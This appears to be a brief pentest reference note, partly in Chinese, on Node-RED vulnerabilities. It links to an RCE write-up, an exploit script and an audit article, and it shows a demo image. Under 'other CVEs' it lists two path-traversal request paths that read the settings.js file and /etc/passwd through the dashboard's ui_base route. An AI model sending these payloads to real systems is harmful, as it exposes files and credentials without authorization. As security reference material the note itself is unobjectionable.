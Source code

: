 
## RCE
Ref:
- https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/
- https://gist.githubusercontent.com/QKaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py
- [物联网开源组件安全：Node-RED白盒审计](https://mp.weixin.qq.com/s/ZpmhBzgqL6QqHXkDBHOH5w)

### Demo
![image](https://user-images.githubusercontent.com/30398606/143161677-48e5b055-2616-4eea-b2b6-6ed592befe5f.png)


## 其他几个CVE
```
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```
